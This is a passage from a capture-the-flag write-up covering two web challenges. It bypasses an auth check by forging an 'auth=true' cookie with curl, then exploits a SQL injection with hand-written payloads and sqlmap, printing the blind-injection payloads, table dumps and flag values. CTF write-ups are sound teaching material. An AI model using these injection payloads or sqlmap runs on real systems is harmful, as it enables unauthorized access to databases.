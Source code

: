 <p>That's an interesting cookie.</p>

<pre><code>[andrew@archa ~]$ curl http://backdoor.cognizance.org.in/problems/web30/auth.php?                   
Sorry , you will never get a flag in your life :P  Not authorized
</code></pre>

<p>What if we send <code>auth=true</code>?</p>

<pre><code>[andrew@archa ~]$ curl http://backdoor.cognizance.org.in/problems/web30/auth.php? --cookie "auth=true"
Here is a flag : aeba37a3aaffc93567a61d9a67466fdf
</code></pre>

<h3>Web 50</h3>

<p>The PHP script appears to be running a SQL query of the form <code>SELECT FROM QUOTES WHERE quote LIKE '$search';</code></p>

<p>We can make this conditional true for all quotes by searching for <code>' or 1=1 or '</code>. We can check whether a SQL conditional evaluates to true by ANDing the conditional with another that should return true, e.g. <code>f' and 2=2 or 'foobar'='</code>. This allows us to extract one bit of information per query. We could write a binary search script to extract characters to read the database and, hopefully, the flag. </p>

<p>sqlmap is a great tool for automatic exploitation of SQL injection vulnerabilities. Let's throw sqlmap at the page for a few minutes to find all of the tables.</p>

<pre><code>sqlmap -u http://backdoor.cognizance.org.in/problems/web50/search.php --data="search=f" --tables --threads 10 --exclude-sysdbs

\---
Place: POST
Parameter: search
    Type: boolean-based blind
Title: AND boolean-based blind - WHERE or HAVING clause
Payload: search=f%' AND 5266=5266 AND '%'='

Type: AND/OR time-based blind
Title: MySQL &gt; 5.0.11 AND time-based blind
    Payload: search=f%' AND SLEEP(5) AND '%'='
\---

Database: sqli_db
[2 tables]
+-----------------------+
| quotes                |
| the_flag_is_over_here |
+-----------------------+
</code></pre>

<p>Hmm, let's take them at their word and dump the contents of that second table:</p>

<pre><code>sqlmap -u http://backdoor.cognizance.org.in/problems/web50/search.php --data="search=f" -D sqli_db -T the_flag_is_over_here --dump  --threads 10 --exclude-sysdbs

Database: sqli_db
Table: the_flag_is_over_here
[1 entry]
+----------------------------------+
| twisted_column_name              |
+----------------------------------+
| d5abaf391f7bc7e7cda8c128e5ca3187 |
+----------------------------------+
</code></pre>
